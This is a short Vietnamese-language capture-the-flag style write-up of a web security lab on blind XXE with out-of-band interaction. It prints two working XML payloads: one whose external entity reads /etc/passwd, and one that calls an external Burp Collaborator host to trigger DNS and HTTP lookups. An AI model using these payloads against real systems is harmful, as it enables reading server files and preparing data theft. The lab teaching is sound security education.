







# Writeup LAB Blind XXE with out-of-band interaction

## Goal
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
## Khai thác
Trang chủ:

Trong bài thực hành trước, chúng ta đã phát hiện ra lỗ hổng tấn công XXE trong tính năng "Kiểm tra kho hàng" , tính năng này phân tích đầu vào XML và trả về bất kỳ giá trị không mong muốn nào trong phản hồi


Khi tôi truyền kí tự đặc biệt lạ vào `&xxe;` kết quả server trả về `"XML parsing error"`
Vậy chúng ta có thể định nghĩa thực thể và tiến hành thực thi tệp như sau:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Nhưng kết quả không trả về dữ liệu và như tiêu đề để thực hiện chúng ta cần kích hoạt XXE mù ra ngoài server

Với bằng cách đó tôi sẽ bật Host của BUrp Collbrator tiến hành kích hoạt dữ liệu blind XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[
<!ENTITY xxe SYSTEM "http://z55bsg0gqzcnnogp0r80v0ij3a91xtli.oastify.com">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả lúc này XML parse và nó thực hiện DNS Lookup HTTP request ở tệp thực thi


